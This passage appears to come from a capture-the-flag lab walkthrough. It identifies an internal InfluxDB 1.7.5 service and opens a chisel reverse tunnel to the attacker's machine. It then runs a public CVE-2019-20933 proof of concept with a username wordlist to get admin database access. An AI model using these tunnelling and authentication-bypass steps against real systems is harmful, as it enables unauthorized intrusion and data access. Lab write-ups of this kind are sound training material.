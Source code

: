 Doing a HEAD request on it we can identify the version to be `1.7.5` for which a known CVE exists.

```
patrick@devzat:~$ curl -I http://127.0.0.1:8086
HTTP/1.1 404 Not Found
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
X-Influxdb-Build: OSS
X-Influxdb-Version: 1.7.5
Date: Sat, 16 Oct 2021 21:06:15 GMT
Content-Length: 19
```

To use [this](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) PoC on it we forward it to our machine with chisel.

```
$ chisel server -p 9000 -reverse
2021/10/16 21:04:33 server: Reverse tunnelling enabled
2021/10/16 21:04:33 server: Fingerprint xt8l5g1cRTnKyLo0fa6iK7rjwyGcOSE9g7EaAZ9GHf4=
2021/10/16 21:04:33 server: Listening on http://0.0.0.0:9000
```

```
patrick@devzat:~$ ./chisel client 10.10.14.82:9000 R:8086:127.0.0.1:8086 &
[1] 82221
patrick@devzat:~$ 2021/10/16 21:05:23 client: Connecting to ws://10.10.14.82:9000
2021/10/16 21:05:23 client: Connected (Latency 26.208854ms)
```

After we modify the exploit script to remove the unessecary request for the banner we create a small list of known possible usernames.

`__main__.py`
```py
...[snip]...
if __name__ == '__main__':

    exploit()
```

`users`
```
patrick
catherine
admin
root
```

Running the exploit we see that is indeed vulnerable to an empty SharedSecret and we are able to access the database as the admin user.

```
$ python __main__.py

Insert ip host (default localhost):
Insert port (default 8086):
Insert influxdb user (wordlist path to bruteforce username): ../users

Start username bruteforce
[x] patrick
[x] catherine
[v] admin

Host vulnerable !!!
Databases list:

1) devzat
2) _internal

```